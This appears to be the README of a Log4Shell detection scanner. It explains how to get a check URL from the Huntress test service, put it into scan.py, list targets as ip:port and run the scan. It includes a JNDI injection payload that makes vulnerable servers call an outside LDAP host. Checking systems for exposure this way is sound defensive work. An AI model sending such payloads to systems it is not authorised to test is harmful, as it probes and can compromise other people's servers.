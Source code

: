 goto https://log4shell.huntress.com/

click on "view connections"

copy the supplied check_url string:
${jndi:ldap://log4shell.huntress.com:1389/xxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxx}

goto scan.py replace the "check_url" with yours.

fill "targets.txt" per line with:
ip:port 

run it with:
python3 scan.py

view the Huntress Log4Shell Vulnerability Results
and look if you got a hit on a IP-address.

